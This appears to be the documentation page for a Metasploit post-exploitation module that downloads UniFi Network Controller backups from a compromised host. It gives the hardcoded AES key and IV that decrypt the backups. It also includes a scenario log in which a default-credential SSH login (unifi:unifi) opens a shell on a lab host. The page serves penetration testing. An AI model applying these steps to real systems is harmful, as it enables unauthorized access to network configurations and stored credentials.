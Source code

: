 ## Vulnerable Application

  This module works against UniFi Network Controller (`5.10.19`-`5.10.23` confirmed, most likely others), to download any backup and
  autobackup files (.unf extension).  These files are AES encrypted zip files which use the IV `ubntenterpriseap` and
  key `bcyangkmluohmars`.  The unf zip file is then decrypted, however it contains an error in the file.  Utilizing
  `zip -FF` the file can be repaired and opened (some reports say 7zip can open the errored file).  If `zip` is
  available on the system, this operation is performed and the result saved to loot as well.

  Due to the potential large file sizes of the backups, meterpreter is greatly encouraged over a shell.

  This work is based on zhangyoufu's [unifi-backup-decrypt](https://github.com/zhangyoufu/unifi-backup-decrypt)
  and justingist's [POSH-Ubiquiti](https://github.com/justingist/POSH-Ubiquiti/blob/master/Posh-UBNT.psm1).  

  The unf file has the following actions performed:

  1. Decrypt the file
  2. Fix the zip file if a `zip` utility is on the system
  3. Extract db.gz
  4. Unzip the db file
  5. Import the db file

### Install Instructions

  1. Download the file from https://www.ui.com/download/unifi (Java required on Windows)
  2. Install with default parameters
  3. Login to `https://localhost:8443/manage` and click the gear icon in the bottom left
  4. Select `Maintenance` then click `DOWNLOAD BACKUP` to create the backup file.

## Verification Steps

  1. Install the application
  2. Get a shell
  3. Do: ```use post/multi/gather/ubiquiti_unifi_backup```
  4. Do: ```set session #```
  5. Do: ```run```

## Scenarios

### Ubiquiti Unifi Controller 5.10.19 (Build: atag_5.10.19_11646) on Ubuntu 18.04

#### Initial Access

```
[*] Processing unifi.rb for ERB directives.
resource (unifi.rb)> use auxiliary/scanner/ssh/ssh_login
resource (unifi.rb)> set username unifi
username => unifi
resource (unifi.rb)> set password unifi
password => unifi
resource (unifi.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (unifi.rb)> run
[+] 2.2.2.2:22 - Success: 'unifi:unifi' 'uid=1000(unifi) gid=1000(unifi) groups=1000(unifi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare) Linux unifi 4.18.0-16-generic #17~18.04.1-Ubuntu SMP Tue Feb 12 13:35:51 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux '
[*] Command shell session 1 opened (1.1.1.1:33389 -> 2.2.2.2:22) at 2019-03-10 15:58:18 -0400
```